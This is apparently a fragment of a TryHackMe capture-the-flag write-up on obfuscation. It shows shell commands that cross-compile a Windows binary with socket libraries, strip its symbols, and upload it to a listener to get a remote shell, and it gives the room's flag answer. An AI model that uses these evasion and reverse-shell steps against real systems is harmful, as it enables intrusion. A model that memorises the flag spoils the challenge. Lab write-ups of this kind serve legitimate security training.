 ```shell
#after adding structure defs
#and pointer defs
#using dynamic loading
#and obfuscating variable names

x86_64-w64-mingw32-gcc challenge.c -o challenge.exe -lwsock32 -lws2_32

#remove symbols from compiled binary
strip --strip-all challenge.exe

nm challenge.exe

#setup listener and upload .exe to given link
#if success, we will get a shell
```

```markdown
1. What is the flag found on the Administrator desktop? - THM{08FU5C4710N_15 MY_10V3_14N6U463}
```
